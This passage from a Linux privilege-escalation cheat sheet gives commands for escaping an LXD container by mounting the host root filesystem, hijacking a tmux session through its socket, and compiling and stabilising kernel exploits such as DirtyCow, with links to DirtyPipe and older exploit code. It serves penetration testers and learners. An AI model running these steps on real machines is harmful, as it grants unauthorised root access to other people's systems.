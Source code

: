 # mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
Alternatively https://github.com/initstring/lxd_root

Hijack TMUX session
Require a read access to the tmux socket : /tmp/tmux-1000/default.


export TMUX=/tmp/tmux-1000/default,1234,0 
tmux ls
Kernel Exploits
Precompiled exploits can be found inside these repositories, run them at your own risk ! * bin-sploits - @offensive-security * kernel-exploits - @lucyoa

The following exploits are known to work well, search for more exploits with searchsploit -w linux kernel centos.

Another way to find a kernel exploit is to get the specific kernel version and linux distro of the machine by doing uname -a Copy the kernel version and distribution, and search for it in google or in https://www.exploit-db.com/.

CVE-2022-0847 (DirtyPipe)
Linux Privilege Escalation - Linux Kernel 5.8 < 5.16.11


https://www.exploit-db.com/exploits/50808
CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8


# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
CVE-2010-3904 (RDS)
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8


https://www.exploit-db.com/exploits/15285/
CVE-2010-4258 (Full Nelson)
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)


https://www.exploit-db.com/exploits/15704/
CVE-2012-0056 (Mempodipper)
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)


https://www.exploit-db.com/exploits/18411
